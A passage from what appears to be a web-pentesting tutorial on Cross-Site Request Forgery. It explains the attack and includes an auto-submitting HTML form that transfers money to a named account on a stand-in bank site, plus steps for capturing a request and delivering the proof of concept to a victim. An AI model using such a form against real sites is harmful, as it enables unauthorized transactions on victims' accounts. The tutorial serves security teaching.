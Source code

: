 # Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
We can deliver a CSRF attack via GET or POST method depending on the case.

## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF via POST method. We have to do the action we want to exploit in our own account ant capture the POST. Once we have it we have to make an html form to deliver it. 
We can use an authomated resources as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or the following script modifiying it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First we obtain the POST method:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600"><br />
- Finally we create the CSRF PoC so we can deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700"><br />







In the next example we are going to tr
